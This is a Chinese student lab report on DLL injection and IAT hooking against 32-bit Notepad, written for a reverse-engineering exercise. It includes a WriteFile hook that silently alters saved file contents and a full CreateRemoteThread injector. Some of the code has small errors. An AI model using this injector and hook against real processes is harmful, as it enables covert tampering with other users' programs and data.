








# DLL注入实验报告

### 实验目的

+ 利用dll注入、hook篡改记事本行为，使得在记事本中输入“123456”，实际写入的内容是“654321”

### 实验原理

+ API hook：通过hook“接触”到需要修改的API函数入口点，改变它的地址指向新的自定义的函数，以此改变一个系统API的原有功能。、常见的API Hook包括2种， 一种是基于PE文件的导入表(IAT), 还有一种是修改前5个字节直接JMP的inline Hook
+ IAT hook：原理是PE文件里有个导入表， 代表该模块调用了哪些外部API，模块被加载到内存后， PE加载器会修改该表，地址改成外部API重定位后的真实地址， 我们只要直接把里面的地址改成我们新函数的地址， 就可以完成对相应API的Hook
+ notepad在写入文件时使用的是kernelbase模块的writefile函数，所以在进行IAT hook时，只需要将writefile的地址改为新写的函数地址
+ `injectAllTheThings`仓库中总结了七种DLL注入技术，其中CreateRemoteThread()技术的步骤主要有以下几步：
  1. 使用OpenProcess()函数打开目标进程
  2. 通过调用GetProAddress()函数找到LoadLibrary()函数的地址
  3. 通过调用VirtualAllocEx()函数在目标/远程进程地址空间中为DLL文件路径开辟内存空间
  4. 调用WriteProcessMemory()函数在之前所分配的内存空间中写入DLL文件路径
  5. 调用CreateRemoteThread()函数创建一个新的线程，新线程以DLL文件路径名称作为参数来调用LoadLibrary()函数

### 实验过程

#### Hook

+ 首先运行一个简单的IAT hook[例子](https://github.com/tinysec/iathook)，在本地vs2019新建项目hook，将示例仓库内的README.md保存为main.c函数，将IATHook.c保存在项目内，编译运行成功

  

+ 示例仓库中使用的函数是MessageBoxA，其Hook方式是编写一个Fake_MessageBox改变地址，因此我们仿照其方法编写Fake_WriteFile函数

  ```
  int __stdcall Fake_WriteFile(
  	HANDLE       hFile,
  	LPCVOID      lpBuffer,
  	DWORD        nNumberOfBytesToWrite,
  	LPDWORD      lpNumberOfBytesWritten,
  	LPOVERLAPPED lpOverlapped
  	)
  {
  	
  	LPFN_WriteFile fnOrigin = (LPFN_WriteFile)GetIATHookOrign(g_hHook_WriteFile);
  	char content[] = "654321";  //篡改的内容 
  	DWORD dwWrite;
  	return fnOrigin(fFile, &content, strlen(content), &dwWrite, lpOverlapped);
  }
  
  ```

  WriteFile函数所在模块为kernel32.dll，因此需要修改IATHook函数：

  ```
  IATHook(
  			GetModuleHandle(NULL),
  			"kernel32.dll",
  			"WriteFile",
  			Fake_WriteFile,
  			&g_hHook_WriteFile
  		);
  ```

  修改后的main.c文件为

+ 检测Hook是否成功

  在主函数中添加以下内容以检测Hook是否成功，

  ```
  HANDLE hFILE = CreateFile("C:\\Users\\LM\\Desktop\\逆向工程\\test.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);//创建测试txt文件
  
  char buff[256] = "123456";
  
  DWORD dwWrite;
  
  WriteFile(hFILE, &buff, strlen(buff), &dwWrite, NULL); //在记事本中输入123456，若Hook攻击成功，则实际输入的内容是654321
  
  UnIATHook(g_hHook_WriteFile);
  
  CloseHandle(hFILE);
  ```

  

  调试，在运行到WriteFile函数时会发现跳转到了我们自己写的Fake_WriteFile函数内，并在记事本内写入篡改的内容，实现了Hook攻击

  

#### DLL注入

+ 将上一步建立的项目生成DLL动态库

  + 修改项目属性的部分内容

    

  + 生成dll动态库

    

+ 新建DLL注入项目inject，这里我使用CreateRemoteThread()的注入技术，编写代码inject.c,向指定进程中注入DLL

  ```
  #pragma warning(disable:4996)
  #include <windows.h>
  #include<stdio.h>
  #include <tchar.h>
  
  BOOL InjectDll(DWORD dwPID, LPCTSTR szDllPath) {
  
  	HANDLE hProcess = NULL;
  
  	HANDLE hThread = NULL;
  
  	HMODULE hMod = NULL;
  
  	LPVOID pRemoteBuf = NULL;  // 存储在目标进程申请的内存地址
  
  	DWORD dwBufSize = (DWORD)(_tcslen(szDllPath) + 1) * sizeof(TCHAR);  // 存储DLL文件路径所需的内存空间大小
  
  	LPTHREAD_START_ROUTINE pThreadProc;
  
  
  
  	if (!(hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID))) {
  
  		printf(L"OpenProcess(%d) failed!!! [%d]\n", dwPID, GetLastError());
  
  		return FALSE;
  
  	}
  
  	pRemoteBuf = VirtualAllocEx(hProcess, NULL, dwBufSize, MEM_COMMIT, PAGE_READWRITE);  // 在目标进程空间中申请内存
  	WriteProcessMemory(hProcess, pRemoteBuf, (LPVOID)szDllPath, dwBufSize, NULL);  // 向在目标进程申请的内存空间中写入DLL文件的路径
  	hMod = GetModuleHandle(L"kernel32.dll");
  	pThreadProc = (LPTHREAD_START_ROUTINE)GetProcAddress(hMod, "LoadLibraryW");  // 获得LoadLibrary()函数的地址
  	hThread = CreateRemoteThread(hProcess, NULL, 0, pThreadProc, pRemoteBuf, 0, NULL);
  	WaitForSingleObject(hThread, INFINITE);
  	CloseHandle(hThread);
  	CloseHandle(hProcess);
  	return TRUE;
  
  }
  
  
  int main() {
  	char szDllPath[] = "hook.dll";
  	printf("请输入进程号:");
  	DWORD dwPID;
  	scanf("%u", &dwPID);
  	if (InjectDll((DWORD)_tstol(dwPID), szDllPath))
  		printf("InjectDll(\"%s\") success\n", szDllPath);
  	else
  		printf(L"InjectDll(\"%s\") failed\n", szDllPath);
  	return 0;
  }
  
  ```

+ 使用notepad（32位）打开一个txt文件，查看其进程号，然后运行注入项目，输入PID，DLL注入成功

  

  

+ 在txt中写入123456，再次打开会发现其内容变为了654321

  

  

  

### 实验参考

+ [iathook](https://github.com/tinysec/iathook)

+ [HOOK技术的一些简单总结 ](https://www.cnblogs.com/weiym/p/3396274.html)

+ [多种DLL注入技术原理介绍](https://blog.csdn.net/fuhanghang/article/details/83795769)

+ [fdiskyou/injectAllTheThings: Seven different DLL injection techniques in one single project](https://github.com/fdiskyou/injectAllTheThings)

  
